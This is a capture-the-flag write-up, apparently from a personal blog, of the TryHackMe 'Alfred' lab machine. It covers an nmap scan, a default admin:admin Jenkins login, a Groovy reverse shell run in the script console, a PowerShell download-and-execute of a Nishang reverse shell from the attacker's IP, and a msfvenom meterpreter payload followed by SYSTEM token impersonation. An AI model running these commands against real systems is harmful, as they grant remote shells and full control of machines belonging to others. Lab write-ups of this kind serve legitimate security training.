 ```yaml
---
title: "Alfred - Writeup"
classes: single
ribbon: LightBlue
categories:
  - writeup
tags:
  - Alfred
  - writeups
  - pentest
  - writeup
  - oscp
  - shell
  - exploit
  - thm
  - tryhackme
  - machine
  - easy
  - windows
toc: true
hide_title: true
excerpt: ""
sidebar:
        nav: "menu_writeups"
---
```


## Alfred
![](https://kar0nx.github.io/assets/images/writeup/953f1e4a27c7e04130b824ec1bc8e159.png)

## Reconnaissance

IP: 10.10.145.120 / restart 10.10.49.243
## NMAP

```
nmap -T4 -A -p- 10.10.145.120
```

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-12 10:41 EDT
Nmap scan report for 10.10.145.120
Host is up (0.048s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 7.5
|_http-server-header: Microsoft-IIS/7.5
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
3389/tcp open  ssl/ms-wbt-server?
| ssl-cert: Subject: commonName=alfred
| Not valid before: 2025-03-11T14:37:48
|_Not valid after:  2025-09-10T14:37:48
| rdp-ntlm-info: 
|   Target_Name: ALFRED
|   NetBIOS_Domain_Name: ALFRED
|   NetBIOS_Computer_Name: ALFRED
|   DNS_Domain_Name: alfred
|   DNS_Computer_Name: alfred
|   Product_Version: 6.1.7601
|_  System_Time: 2025-03-12T14:44:15+00:00
|_ssl-date: 2025-03-12T14:44:20+00:00; -38s from scanner time.
8080/tcp open  http               Jetty 9.4.z-SNAPSHOT
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|7|8.1 (87%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7::sp1 cpe:/o:microsoft:windows_8.1:r1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 SP1 (87%), Microsoft Windows Server 2008 (86%), Microsoft Windows Server 2008 R2 or Windows 8 (86%), Microsoft Windows 7 SP1 (86%), Microsoft Windows 8.1 R1 (86%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -38s, deviation: 0s, median: -38s

TRACEROUTE (using port 8080/tcp)
HOP RTT      ADDRESS
1   59.42 ms 10.8.0.1
2   43.55 ms 10.10.145.120

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 214.18 seconds
```
## Website
### Site

```
http://10.10.145.120
```
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250312154520.png)

```
http://10.10.145.120:8080/
```
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250312154504.png)

admin:admin

need to restart machine (new IP 10.10.49.243)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250312155903.png)

## Gaining access

as i know jenkins a little bit, we must navigate to manage jenkins/ script console
https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76
jenkins using Groovy language

```
String host="10.8.70.152";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250312160354.png)

### Optional

build history / project / configure

http://10.10.145.120:8080/job/project/configure

and use 
https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1

```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.70.152:80/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.70.152 -Port 1337
```
## Privilege Escalation

```
systeminfo

Host Name:                 ALFRED
OS Name:                   Microsoft Windows 7 Ultimate 
OS Version:                6.1.7601 Service Pack 1 Build 7601
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Workstation
OS Build Type:             Multiprocessor Free
Registered Owner:          bruce
Registered Organization:   
Product ID:                00426-OEM-9154295-64842
Original Install Date:     10/25/2019, 9:51:08 PM
System Boot Time:          3/12/2025, 2:55:36 PM
System Manufacturer:       Xen
System Model:              HVM domU
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: Intel64 Family 6 Model 79 Stepping 1 GenuineIntel ~2300 Mhz
BIOS Version:              Xen 4.11.amazon, 8/24/2006
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             en-us;English (United States)
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC) Dublin, Edinburgh, Lisbon, London
Total Physical Memory:     2,048 MB
Available Physical Memory: 1,242 MB
Virtual Memory: Max Size:  4,095 MB
Virtual Memory: Available: 3,187 MB
Virtual Memory: In Use:    908 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    WORKGROUP
Logon Server:              N/A
Hotfix(s):                 1 Hotfix(s) Installed.
                           [01]: KB976902
Network Card(s):           1 NIC(s) Installed.
                           [01]: AWS PV Network Device
                                 Connection Name: Local Area Connection 2
                                 DHCP Enabled:    Yes
                                 DHCP Server:     10.10.0.1
                                 IP address(es)
                                 [01]: 10.10.49.243
                                 [02]: fe80::5c8b:7d1b:1e0:2dd2

```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250312161601.png)

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.70.152 LPORT=4444 -f exe -o shell.exe
```

```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.70.152:80/shell.exe','shell.exe')"
```

```
powershell.exe Start-Process "shell.exe"
```

```
load incognito
getprivs
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
shell
```
![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250312171819.png)

```
ps
migrate 2688
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250312172232.png)

```
C:\Windows\System32\config\root.txt
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250312172429.png)
